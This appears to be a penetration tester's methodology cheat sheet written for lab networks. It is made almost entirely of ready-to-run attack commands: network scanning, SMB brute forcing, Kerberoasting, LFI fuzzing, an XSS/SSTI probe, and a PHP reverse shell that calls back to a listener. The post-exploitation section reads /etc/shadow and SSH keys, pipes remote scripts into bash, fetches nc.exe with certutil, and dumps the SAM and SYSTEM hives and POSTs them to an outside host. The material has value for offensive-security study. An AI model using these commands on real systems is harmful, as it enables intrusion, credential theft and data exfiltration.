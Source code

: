 
My Methodology


<details>
    <summary>Host Discovery (External)</summary>
</details>
━━━━━━━━━━━━━━━━━━━━━━━━━   
fping -ag 10.10.110.0/24 2>/dev/null | tee external-ips ; \
for ip in $(cat external-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done


Host Discovery (Internal)
━━━━━━━━━━━━━━━━━━━━━━━━━
fping -ag 172.16.1.0/24 2>/dev/null | tee internal-ips ; \
for ip in $(cat internal-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done


Service Enumeration
━━━━━━━━━━━━━━━━━━━━━━━━━
nmap -Pn -sC -sV 172.16.1.10 -p22,80,139,445
ldap=$(nmap --script "ldap* and not brute" -p 389 172.16.1.10); echo "$ldap"
nxc ftp 172.16.1.10 --port 21 -u 'anonymous' -p 'anonymous' --ls
nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --rid-brute 10000
nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --shares
mysql -h 172.16.1.10 -u root@localhost -e 'show databases;'
impacket-GetNPUsers -usersfile usernames domain/ -dc-ip 172.16.1.10
impacket-GetUserSPNs -request-user "$objuser" -dc-ip 172.16.1.10 domain/username:password
impacket-GetUserSPNs -no-preauth "$user" -usersfile usernames -dc-host 172.16.1.10 domain/
impacket-GetUserSPNs -request -dc-ip 172.16.1.10 domain/username:password

for x in $(showmount -e 172.16.1.10 | awk '{print $1}' | grep -v 'Export')
    do mkdir -p "/dev/shm"/mnt"$x"
    sudo mount -t nfs 172.16.1.10:"$x" "/dev/shm"/mnt"$x" -o nolock
    tree -puga "/dev/shm"/mnt"$x"
done


Web Enumeration
━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Technology Discovery
whatweb http://10.10.110.100

[*] WordPress Discovery
wpscan --url http://10.10.110.100/wordpress --enumerate

[*] Directory Discovery
ffuf -u 'http://10.10.110.100/FUZZ' -t 400 -rate 10000 -e .php -v -recursion -mc 200,301 \
-w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
2>/dev/null | grep -oP '(http.*)(?<!/)$'

[*] Directory Traversal
ffuf -u 'http://10.10.110.100/nav.php?page=FUZZ' -t 400 -rate 10000 -v -mc 200 \
-w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt \
2>/dev/null | grep -oP '(http.*)(?<!/)$'

[*] XSS + SSTI
<img src=x>'"${{7*7}}

[*] Subdomain Discovery
gobuster vhost --append-domain -u example.com -k -r -t200 -q \
-w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
| grep -oP '(?<=Found: )[^ ]+'


Exploitation
━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Reverse Shells
<?php
$lhost = "10.10.16.3";
$lport = 4444;

exec("bash -c 'bash -i >& /dev/tcp/$lhost/$lport 0>&1'");
$sock = fsockopen($lhost, $lport);
if ($sock) {
    exec("sh <&3 >&3 2>&3");
}
?>

[*] Upgrade TTY
python3 -c 'import pty; pty.spawn("/bin/bash")';
CTRL-Z
stty size;stty raw -echo;fg
export SHELL=bash;
export TERM=xterm-256color;
stty rows <num> columns <num>
reset


Post Exploitation
━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Linux
ssh user@xxxxxxxxx -i id_rsa -L 33060:localhost:33060
netstat -tuln
ls -la /opt
sudo -l
find / -perm /4000 2>/dev/null
grep -r -E 'conf' /var/www
cat ~/.ssh/id_rsa
cat /etc/shadow
curl xxxxxxxxxx:8088/linpeas.sh | bash
GTFO bins

[*] Windows
evil-winrm -i xxxxxxxxxx -u 'username' -p 'password'
evil-winrm -i xxxxxxxxxx -u 'username' -H 'hash'
cd C:\users
tree /f
powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/winpeas.exe C:\programdata\winpeas.exe"
powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/nc.exe C:\programdata\nc.exe"

click.url
[InternetShortcut]
URL=C:\programdata\shell.bat

meterpreter > use priv
meterpreter > getsystem

nxc winrm xxxxxxxxxx -u 'username' -p 'password' -x \
'
powershell -c rm *.SAV
powershell -c reg save HKLM\SYSTEM SYSTEM.SAV
powershell -c reg save HKLM\SAM SAM.SAV
powershell -c compress-archive *.SAV SAM.zip
powershell -c dir
iwr http://xxxxxxxxxx:xxxx -Method POST -InFile SAM.zip
'; unzip -o SAM.zip; \
impacket-secretsdump LOCAL -sam SAM.SAV -system SYSTEM.SAV

powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/powerview.ps1 C:\programdata\powerview.ps1"
powershell Import-Module C:\programdata\powerview.ps1
Get-NetDomain
Get-LocalUser
Set-DomainObject -Identity USERNAME -SET @{serviceprincipalname='SET/SET'}; Get-DomainSPNTicket -spn SET/SET
bloodhound-python -c all -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
bloodhound-python -c default -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
